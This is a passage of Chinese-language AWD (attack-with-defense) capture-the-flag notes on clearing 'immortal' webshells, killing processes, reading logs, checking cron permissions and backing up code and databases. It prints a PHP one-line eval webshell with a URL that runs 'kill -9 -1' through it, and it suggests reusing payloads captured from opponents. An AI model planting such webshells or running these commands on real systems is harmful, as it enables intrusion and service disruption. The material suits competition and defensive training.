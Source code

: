 ```bash
rm -rf .2.php | mkdir .2.php
```

杀进程得在root或者www-data权限下。如上传一句话，然后执行 system(‘kill -9 -1’); 杀死所有进程，再手动删除木马

```php
shell.php: <?php @eval($_GET['9415']); ?>
url访问：shell.php?9415=system('kill -9 -1');
```

用一个脚本竞争写入，脚本同不死马，usleep要低于对方不死马设置的值.
top 查看占用率最高的cpu进程
q 退出
M 根据驻留内存大小进行排序
P 根据CPU使用百分比大小进行排序

```php
<?php
	   while (1) {
		$pid = 不死⻢的进程PID;
		@unlink("c.php");
		exec("kill -9 $pid");
		usleep(1000);
	}?>
```

重启 apache，php 等web服务（一般不会有权限）

## 监测payload

`tail -f *.log`，看日志，不言而喻，抓他们的payload并利用。

## 中间件日志

⽐如apache，nginx
查看当前访问量前⼗的链接

```bash
cat /var/log/apache2/access.log |awk '{print $7}'|sort|uniq -c| sort -r|head
```

# AWD2

## 检查可登陆用户

- `cat /etc/passwd|grep -v nologin`

## 检查crontab执行权限

- `/var/adm/cron/` 下看`cron.allow` 和`cron.deny`， 如果两个文件都不存在，则只有root 用户能执行crontab 命令，allow 里存放允许的用户，deny 里存放拒绝的用户，以allow 为准。

## 备份/还原源码
```bash
tar -zcvf web.tar.gz /var/www/html/
tar -zxvf web.tar.gz
```
## 备份/还原数据库
```bash
mysql -uroot -proot -e "select user,host from mysql.user;"
mysqldump -uroot -proot db_name > /tmp/bak.sql
mysqldump -uroot -proot --all-databases > bak.sql
mysql -uroot -proot db_name < bak.sql
>	source bak.sql		# 交互模式下导入sql
```
